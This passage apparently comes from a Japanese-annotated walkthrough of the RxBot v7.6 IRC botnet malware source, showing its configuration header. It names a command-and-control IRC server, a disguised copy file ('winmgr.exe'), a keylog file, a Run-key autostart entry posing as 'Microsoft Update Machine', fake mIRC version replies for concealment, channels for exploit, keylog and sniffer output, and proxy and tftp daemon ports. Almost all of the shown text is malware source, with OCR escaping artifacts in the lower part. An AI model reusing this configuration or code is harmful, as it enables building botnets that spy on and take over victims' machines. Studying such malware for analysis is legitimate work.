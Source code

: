 #ifdef DEBUG_LOGGING			// テスト目的でログファイルにプロトコルをダンプできる
char logfile[]="c:\\debug.txt";
#endif

#ifndef NO_CRYPT 			// 暗号化された文字列のみを使用するかバイナリが保護されないか!!

#else  					// Crypt()セットアップの為これだけの使用を勧める(これは安全じゃない)

char botid[] = "Tr0gBot";				// ボット名
char version[] = "[RxBot v7.6 modded by Tr0gd0r]";	// ボートバージョン名
char password[] = "";					// ボットネットに接続するパスワード
char server[] = ""aenigma.gotd.org"";			// 接続先のIRCサーバ
char serverpass[] = "";					// 	 パスワードが必要である場合
char channel[] = "#";					// 	 参加するチャンネル
char chanpass[] = "";					//	 	パスワードが必要である場合
char server2[] = "";					// 予備用	
char channel2[] = "";					// 
char chanpass2[] = "";					// 
char filename[] = "winmgr.exe";				// コピー先のファイル名
char keylogfile[] = "system.txt";			// キーログ用のフアイル名
char valuename[] = "Microsoft Update Machine";		// スタートアップのエントリ名
char nickconst[] = "n-";				// ボット群ニックネーム先頭の部分
char szLocalPayloadFile[]="msconfig.dat";		// ペイロードを送出したログ名
char modeonconn[] = "-x+B";			// /MODE 一つ以上のモードにできて+/-の両方が含まれる
char exploitchan[] = "#n";			// REDIRECT # EXPLOIT MESSAGE  - CHANNEL
char keylogchan[] =  "#n"; 			// REDIRECT # KEYLOG MESSAGE
char psniffchan[] = "#n";			// REDIRECT # PSNIFF MESSAGE 

char *authost[] = {				// 接続先チャンネルのオペレータ権限を認証(直接指定も出来る)
	"*@*",
};

char *versionlist[] = {				// 作者でない誰かがバージョンを求めたときに応答
	"mIRC v6.03 Khaled Mardam-Bey",		// mIRC開発者:Khaled Mardam-Beyという名前
	"mIRC v6.10 Khaled Mardam-Bey",
	"mIRC v6.12 Khaled Mardam-Bey",
	"mIRC v6.14 Khaled Mardam-Bey"
};

// レジストリエントリ：スタートアップ二種, セキュリティ二種
char regkey1[]="Software\\Microsoft\\Windows\\CurrentVersion\\Run";
char regkey2[]="Software\\Microsoft\\Windows\\CurrentVersion\\RunServices";
char regkey3[]="Software\\Microsoft\\OLE";
char regkey4[]="SYSTEM\\CurrentControlSet\\Control\\Lsa";

#endif

#ifdef PLAIN_CRYPT		  // Encrypted Password:暗号化パスワード(kerberos)
char key[16] = "2poiwsfpf3213ew"; // CHANGE THIS!!! hmmm..Do I even need this now?
#endif
-----


■0x07.) maxrand = 6 ってなんだ
=======
\-\-\-\-\-
// bot configuration (不気味なものはLsass) 
int port \= 6667;			// サーバポート
int port2 \= 6667;			// 　　　　　　の予備用
int socks4port \= 38;			// Port \# sock4デーモンを実行するために  \- CHANGE THIS!!!
int tftpport \= 69;			// Port \# tftpデーモンを実行するために
int httpport \= 81;			// Port \# httpデーモンを実行するために
int rloginport \= 37;			// Port \# rloginデーモンを実行するために
BOOL topiccmd \= TRUE;			// /TOPIC コマンドを有効にするにはTRUEに設定する
BOOL rndfilename \= TRUE;		// rxBotのファイル名をランダムな[a\-z]に設定する
BOOL AutoStart \= TRUE;			// 自動起動のレジストリキーを有効にする
char prefix \= '.';			// rxBotのコマンド接頭辞(最大一文字)
int maxrand \= 6;			// 乱数で決めるニックネームの桁数